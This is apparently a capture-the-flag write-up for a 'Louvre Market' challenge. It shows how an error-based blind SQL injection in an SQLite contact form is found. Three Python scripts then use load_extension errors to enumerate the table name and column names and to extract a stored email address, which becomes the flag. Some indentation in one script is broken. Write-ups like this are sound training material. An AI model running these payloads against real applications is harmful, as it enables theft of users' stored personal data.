# Louvre Market

Our aim here is to find the email address of the person wanting to buy the Mona Lisa.

There is a contact section on the site. We can therefore imagine that in her message to the administrator, she wrote 'mona lisa'.

## Attack type

We notice that if we send a message starting with a quote, the server encounters an error. This might suggest SQL injection (SQLi).

![alt text](quote.png)

![alt text](internal_server_error.png)

In the context of the application (sending a message), the SQL query in the back-end would probably be an `INSERT` instead of a classic `SELECT`. For example, an `INSERT`:

```sql
INSERT INTO table_name (email, message) VALUES ('{email}', '{message}')
```

Let's take a look at the type of language we are using:

MySQL:

```SQL
' and case when (select @@version) then 1 else load_extension(1) end) --
```

![alt text](internal_server_error.png)

SQLite:

```python
' and case when (select sqlite_version();) then 1 else load_extension(1) end) --
```

![alt text](redirection.png)

This redirects us to the home page. This is therefore an SQLite database.

## Table name

Next, we're going to try and extract the name of the table. To do this, we need to play with server-side errors. To do this, we can use the following python code:

```python
import requests

# URL of the form (POST)
url = "http://127.0.0.1:5001/"

# Parameters for the attack
charset = "abcdefghijklmnopqrstuvwxyz0123456789_"
table_name = ""
max_len = 20 # Maximum expected length of the table name

print("[*] Starting blind SQLi enumeration on the 'message' field...\n")

for i in range(1, max_len + 1):
	found = False
	for char in charset:
		# Inject payload into the "message" field
		payload = f"' AND CASE WHEN (SELECT 1 FROM sqlite_master WHERE type='table' AND tbl_name LIKE '{table_name}{char}%') THEN 1 ELSE load_extension(1) END)--"

		data = {
			"email": "test@example.com",
			"message": payload
				}
		response = requests.post(url, data=data)

		# If no error, then the character is valid
		if "error" not in response.text.lower(): # You can adapt this based on the exact error message
			table_name += char
			print(f"[+] Letter {i} found: {char} -> {table_name}")
			found = True
			break

	if not found:
		print("\n[*] Enumeration ended (character not found).")
		break

print(f"\n[!] Discovered table name: {table_name}")
```

```sql
payload = f"' AND CASE WHEN (SELECT 1 FROM sqlite_master WHERE type='table' AND tbl_name LIKE '{table_name}{char}%') THEN 1 ELSE load_extension(1) END)--"
```

- This payload is injected into the `message` field.
- It uses the SQLite system table `sqlite_master` which lists all tables.
- The condition `tbl_name LIKE “{table_name}{char}%”` looks to see if a table exists whose name begins with what we've already found (`table_name`) **+ the current character `char`**.
- If the condition is true (`THEN 1`), the query does not raise an error.
- Otherwise (`ELSE load_extension(1)`), a `load_extension(1)` function which does not exist will cause an error (because loading an invalid extension).
- The `--` is used to comment out the rest of the SQL query, to avoid syntax errors.

![alt text](table.png)

The table is therefore `messages`.

## Column names

Now we need to find the attributes of the table. In the same way as above, we can use the following payload:

```python
import requests

url = "http://127.0.0.1:5001/"
charset = "abcdefghijklmnopqrstuvwxyz0123456789"
max_len = 20 # max longueur d'un nom de colonne

print("[*] Starting exhaustive blind SQLi enumeration of column names in 'messages' table...\n")

prefixes = [""]
all_prefixes = set()

for pos in range(1, max_len + 1):
	print(f"[*] Testing position {pos} ...")
	new_prefixes = []

	for prefix in prefixes:
		for char in charset:
		test_prefix = prefix + char

		payload = (f"' AND CASE WHEN (SELECT 1 FROM PRAGMA_TABLE_INFO('messages') WHERE name LIKE '{test_prefix}%') THEN 1 ELSE load_extension(1) END)--")

		data = {
		"email": "test@example.com",
		"message": payload
		}

		response = requests.post(url, data=data)

		if "error" not in response.text.lower():
			new_prefixes.append(test_prefix)
			all_prefixes.add(test_prefix)
			print(f"[+] Found prefix: {test_prefix}")

	if not new_prefixes:
		print("[*] No more prefixes found, stopping enumeration.\n")
		break

	prefixes = new_prefixes

print(f"[*] Filtering full column names...\n")

full_names = set()
for name in all_prefixes:
	payload = (f"' AND CASE WHEN (SELECT 1 FROM PRAGMA_TABLE_INFO('messages') WHERE name = '{name}') THEN 1 ELSE load_extension(1) END)--")

	data = {
	"email": "test@example.com",
	"message": payload
	}

	response = requests.post(url, data=data)

	if "error" not in response.text.lower():
		full_names.add(name)

print(f"[*] Full column names found:\n")

for col in full_names:
	print(f"- {col}")
```

![alt text](column.png)

## Retrieve the email

Now we're going to check whether any of the messages in the database contain the string `mona lisa`:

```sql
' and case when (select 1 FROM messages WHERE message LIKE '%mona lisa%') then 1 else load_extension(1) end) --
```

This redirects us to the home page. All we need to do now is extract the email containing the string. We can use the following payload:

```python
import requests

url = "http://127.0.0.1:5001/"
charset = "abcdefghijklmnopqrstuvwxyz0123456789@.-"
max_len = 50 # limite de longueur raisonnable d'un email

print("[*] Starting blind SQLi exfiltration of email linked to message 'mona lisa'...\n")

known_prefix = ""
for pos in range(1, max_len + 1):
	print(f"[*] Testing character at position {pos} ...")
	found = False

	for char in charset:
		test_prefix = known_prefix + char

		payload = (f"' AND CASE WHEN (SELECT 1 FROM messages WHERE message LIKE '%mona lisa%' AND email LIKE '{test_prefix}%') THEN 1 ELSE load_extension(1) END)--"
		)

		data = {
			"email": "test@example.com",
			"message": payload
		}

		response = requests.post(url, data=data)


		if "error" not in response.text.lower():
			known_prefix += char
			print(f"[+] Current email: {known_prefix}")
			found = True
			break

	if not found:
		print("[*] No more characters found, stopping.\n")
		break

print(f"[*] Full extracted email:\n{known_prefix}")
```

So we find the email you're interested in:

![alt text](email.png)

Flag: DVCTF{emily@forgotten-gallery.net}
